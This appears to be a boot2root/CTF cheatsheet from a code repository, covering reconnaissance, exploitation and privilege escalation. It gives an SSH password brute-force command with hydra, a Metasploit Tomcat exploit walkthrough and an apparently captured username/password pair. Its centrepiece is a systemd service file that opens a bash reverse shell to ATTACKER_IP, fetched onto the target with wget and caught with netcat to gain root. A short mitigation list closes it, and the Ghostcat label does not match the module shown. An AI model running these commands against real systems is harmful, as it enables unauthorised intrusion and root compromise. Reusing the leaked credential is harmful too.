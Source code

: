 # Boot2Root Cheatsheet


## **Enumeration**
### **Network Scanning**
```bash
nmap -sn [Subnet]     nmap -sn 192.168.80.0/24          # Ping sweep for live hosts

nmap -sC -sV -oN nmap_initial.txt [Target IP]  # Basic scan

nmap -A -p- -oN nmap_full.txt [Target IP]     # Aggressive scan

```

### **Web Enumeration**
```bash
gobuster dir -e -u http://10.10.181.27 -w /home/iftx/Desktop/Room/wordlist/common.txt -x .php,.txt,.js,.html

subfinder -d [Target Domain]     # Find subdomains

amass enum -d [Target Domain]    # Active enumeration
```

### **Service Enumeration**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```

## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>

## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


